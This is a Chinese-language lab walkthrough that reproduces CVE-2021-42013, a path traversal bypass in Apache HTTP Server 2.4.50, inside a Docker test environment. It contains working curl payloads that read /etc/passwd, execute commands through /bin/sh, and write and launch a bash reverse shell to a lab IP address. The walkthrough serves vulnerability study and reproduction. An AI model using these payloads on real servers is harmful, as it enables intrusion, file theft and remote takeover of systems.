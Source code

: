 # Apache HTTP Server 2.4.50 路径穿越漏洞 CVE-2021-42013

## 漏洞描述

Apache HTTP Server是Apache基金会开源的一款流行的HTTP服务器。Apache官方在2.4.50版本中对2.4.49版本中出现的目录穿越漏洞[CVE-2021-41773](https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773)进行了修复，但这个修复是不完整的，CVE-2021-42013是对补丁的绕过。

攻击者利用这个漏洞，可以读取位于Apache服务器Web目录以外的其他文件，或者读取Web目录中的脚本文件源码，或者在开启了cgi或cgid的服务器上执行任意命令。

这个漏洞可以影响Apache HTTP Server 2.4.49以及2.4.50两个版本。

参考链接：

- https://httpd.apache.org/security/vulnerabilities_24.html
- https://twitter.com/roman_soft/status/1446252280597078024

## 环境搭建

Vulhub执行如下命令编译及运行一个存在漏洞的Apache HTTP Server 2.4.50版本服务器：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到Apache默认的`It works!`页面。

## 漏洞复现

使用CVE-2021-41773中的Payload已经无法成功利用漏洞了，说明2.4.50进行了修复。

但可以使用`.%%32%65`进行绕过，`.%%32%65`是对`%2e`再次URL编码后的结果（注意其中的`/icons/`必须是一个存在且可访问的目录）：

```
curl -v --path-as-is http://your-ip:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```

可见，成功读取到`/etc/passwd`：

![image-20220221184635747](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202211846028.png)

在服务端开启了cgi或cgid这两个mod的情况下，这个路径穿越漏洞将可以执行任意命令：

```
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```

![image-20220221184737284](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202211847459.png)

写入反弹shell

```
curl -v --data "echo;echo 'bash -i >& /dev/tcp/192.168.174.128/9999 0>&1'>> /tmp/shell.sh" 'http://192.168.174.128:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```

执行反弹shell

```
curl -v --data "echo;bash /tmp/shell.sh" 'http://192.168.174.128:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```

![image-20220221184841656](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202211848741.png)

